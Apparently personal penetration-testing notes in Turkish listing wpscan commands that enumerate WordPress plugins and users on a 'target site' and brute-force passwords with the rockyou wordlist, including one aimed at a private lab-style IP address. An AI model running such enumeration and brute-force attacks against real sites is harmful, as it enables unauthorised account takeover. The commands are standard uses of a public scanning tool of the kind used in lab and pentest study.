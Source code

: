 hedef site üzerinde kullanılan pluginleri bulma

```bash
wpscan --url http://<site-adresi> --enumerate p
```
hedef site üzerinde kullanıcı bulma

```bash
wpscan --url http://hedefsite.com -e u
```
```bash
/ bunları siledebiliriz boşluk bırakıyor onlar !!!
```
hedef site üzerindeki userleri bul ve bulduğun userlere direkt bruteforce at !!
```bash
wpscan --url http://10.10.91.62/ -e u -P /usr/share/wordlists/rockyou.txt
```
Brute Force Şifre Denemesi
```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames admin \
--max-threads 10

```
 Ekstra: Kullanıcı Listesi ile Brute Force

```bash
wpscan --url http://hedefsite.com \
--passwords /usr/share/wordlists/rockyou.txt \
--usernames users.txt \
--max-threads 10

```

